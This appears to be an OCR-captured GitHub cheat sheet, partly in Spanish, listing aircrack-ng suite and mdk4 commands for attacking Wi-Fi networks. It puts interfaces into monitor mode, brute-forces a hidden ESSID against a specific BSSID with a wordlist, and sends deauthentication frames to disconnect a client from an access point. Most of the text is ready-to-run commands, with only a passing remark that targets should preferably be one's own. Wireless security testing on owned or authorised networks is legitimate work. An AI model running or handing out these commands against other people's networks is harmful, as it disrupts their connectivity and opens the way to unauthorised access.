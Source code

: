 ```bash
# Quickstart
sudo airmon-ng start wlan0
sudo airodump-ng --band abg wlan0mon
 
# Bruteforce Hidden ESSID => Extended Service Set Identifier, BSSID: Basic Service Set Identifier.
sudo airodump-ng wlan0mon -c 11
sudo mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f rockyouwifi.txt
 
# Monitor
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
 
# Managed
sudo ip link set wlan0 down
sudo iw wlan0 set type managed
sudo ip link set wlan0 up
 
# Monitor 1
sudo ip link set wlan0 down
sudo iw dev wlan0 set monitor none
sudo ip link set wlan0 up
 
 
sudo iw dev wlan0 set channel 13
sudo aireplay-ng --test wlan0
sudo iw list | less
sudo iw reg get
```
 
# Previous
sudo airmon-ng # Mostrar interfaces disponibles
sudo airmon-ng start <interfaz>
sudo airmon-ng check kill
 
Luego,
sudo airodump-ng <interfaz> --band ab
sudo airodump-ng <interfaz> --band g
 
Si funciona los bssid (mac) de un AP y cliente (en lo posible que sean nuestros xD):
 
Si hasta este paso va todo bien, excelente! Sino, ya sabes drivers o no nos sirve :c
 
Continuando:
sudo aireplay-ng <interfaz> -0 10 -a <AP>  -c <cliente>
 
En este paso podemos obtener diversos errores, como de channel invalido o (inserte error) el cual nos indica que no podemos realizar este tipo de ataques.
 
Para el primero, hay varias soluciones, la primera usar el parametro channel para indicarlo y dejarlo fijo:
 
sudo airodump-ng <interfaz> --band <abg> --channel <>
 
Otra alternativa es realizarlo manual:
sudo ifconfig <interfaz> down
sudo ifconfig <interfaz>
 
# TODO Refactor a little
